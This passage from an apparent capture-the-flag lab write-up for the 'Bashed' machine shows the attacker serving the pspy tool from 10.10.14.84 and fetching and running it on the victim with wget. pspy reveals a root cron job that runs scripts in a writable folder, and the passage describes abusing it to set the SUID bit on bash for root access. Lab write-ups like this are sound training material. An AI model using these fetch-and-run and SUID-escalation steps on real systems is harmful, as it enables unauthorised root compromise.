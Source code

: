 > **Victime Machine**:

```bash
wget http://10.10.14.84/pspy
chmod +x pspy
./pspy
# :( version `GLIBC_2.34' not found (required by ./pspy)
uname -a
# x86_64
# Version problem?
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/pspy64 .
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget http://10.10.14.84/pspy64
chmod +x pspy64
./pspy64
# :)
# 2025/03/10 06:46:01 CMD: UID=0    PID=100810 | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
# root!
```

<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To achieve the last step to finish engaging the box is not very complex, since I have write permissions in the **scripts** folder (and the **cron** task will be in charge of executing), I will create a new script that will be in charge of set the Bit **SUID** of the Bash shell and thus when migrating to a new shell with the `-p` parameter to respect the Bit SUID and achieve privilege escalation.
